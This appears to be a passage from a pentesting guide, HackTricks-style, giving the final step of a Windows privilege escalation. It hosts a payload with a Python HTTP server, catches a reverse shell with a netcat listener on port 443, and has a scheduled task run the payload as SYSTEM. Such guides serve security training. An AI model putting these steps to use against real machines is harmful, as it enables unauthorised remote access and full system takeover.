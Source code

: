 - Step 6 — Host Payload and Setup Listener

A Python SimpleHTTPServer is started to host the payload, along with a Netcat listener to capture incoming connections.

```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```

The scheduled task executes the payload, achieving SYSTEM-level privileges.

{{#include ../../../banners/hacktricks-training.md}}


